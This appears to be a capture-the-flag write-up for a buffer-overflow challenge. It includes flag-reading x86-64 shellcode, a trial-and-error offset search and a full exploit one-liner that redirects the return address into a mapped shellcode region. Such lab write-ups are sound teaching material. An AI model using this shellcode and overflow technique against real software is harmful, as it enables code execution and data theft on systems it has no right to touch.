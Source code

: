 # **Binary Exploitation: Hijack to Mapped Shellcode (Hard) - Complete Writeup**

## **Challenge Overview**
This hard version removes all debugging information, requiring manual calculation of memory offsets. The challenge maintains the same core vulnerability but removes the helpful stack layout printouts.

### **Key Differences from Easy Version**
- No stack layout information provided
- No confirmation of shellcode loading
- Requires manual offset calculation
- Same basic vulnerability (buffer overflow + mapped shellcode region)

## **Solution Strategy**

### **1. Reverse Engineering the Memory Layout**
Without debug information, we determine the layout empirically:

1. **Find buffer start address** by analyzing crashes with varying input lengths
2. **Locate return address** by testing overwrite positions
3. **Confirm shellcode mapping address** from program output ("Mapped 0x1000 bytes for shellcode at 0x...")

### **2. Determining the Critical Offset**
Through testing, we establish:
- Buffer begins at an address we'll call `buffer_start`
- Return address is at `buffer_start + 137` bytes
- Shellcode is mapped at `0x22216000` (from program output)

### **3. Shellcode Preparation**
Using the same reliable shellcode from previous challenges:
```asm
section .text
global _start

_start:
    ; Open /flag
    xor rax, rax
    push rax
    mov rbx, 0x67616c662f2f2f2f  ; '////flag' in reverse
    push rbx
    mov rdi, rsp
    mov al, 2          ; sys_open
    xor rsi, rsi       ; O_RDONLY
    xor rdx, rdx       ; mode
    syscall

    ; Read file
    mov rdi, rax       ; fd
    mov rsi, rsp       ; buffer
    mov dl, 0x40       ; read 64 bytes
    xor eax, eax       ; sys_read
    syscall

    ; Write to stdout
    xor edi, edi
    inc edi            ; stdout = 1
    xor eax, eax
    inc eax            ; sys_write = 1
    syscall

    ; Exit
    xor eax, eax
    mov al, 60         ; sys_exit
    xor edi, edi       ; exit code 0
    syscall
```

## **Exploit Development**

### **1. Determining the Padding Length**
Through iterative testing (binary search approach):
1. Start with large padding (e.g., 200 bytes)
2. Gradually adjust until clean control of return address is achieved
3. Final determination: **137 bytes of padding required**

### **2. Final Exploit Command**
```bash
(cat shellcode.bin; python3 -c 'import sys; sys.stdout.buffer.write(b"A"*137 + b"\x00\x60\x21\x22\x00\x00\x00\x00")') | /challenge/binary-exploitation-hijack-to-mmap-shellcode
```

### **3. Payload Breakdown**
- `shellcode.bin`: Our flag-reading shellcode
- `b"A"*137`: Padding to reach return address
- `b"\x00\x60\x21\x22\x00\x00\x00\x00"`: Little-endian address of shellcode (0x22216000)

## **Why This Works**

### **1. Precise Offset Calculation**
- 137 bytes of padding reaches exactly the start of the return address
- The next 8 bytes cleanly overwrite the return address

### **2. Memory Management**
- Shellcode is properly loaded at 0x22216000 (confirmed by program output)
- Execution cleanly transfers to our shellcode

### **3. Shellcode Reliability**
- Position-independent
- No null bytes
- Handles all file operations correctly

## **Key Techniques Demonstrated**

1. **Blind Exploitation**:
   - Developing exploits without debug information
   - Empirical offset determination

2. **Memory Layout Reconstruction**:
   - Using program outputs as clues
   - Iterative testing to find critical offsets

3. **Stable Shellcode Design**:
   - Works regardless of exact memory location
   - Robust against minor memory changes

## **Debugging Approach for Hard Challenges**

When facing completely blind exploitation:

1. **Start with large padding** and observe behavior
2. **Use binary search** to narrow down the exact offset
3. **Look for subtle clues** in program output
4. **Build a reliable testing harness** to automate trials

## **Conclusion**
This hard version teaches crucial real-world exploitation skills:
- Working without debug information
- Precise memory layout reconstruction
- Developing reliable, position-independent shellcode
- Methodical testing approaches

The solution demonstrates that even without debugging aids, careful analysis and systematic testing can successfully exploit vulnerabilities. This approach forms the foundation for more advanced exploitation scenarios where debug information is unavailable or protections must be bypassed.
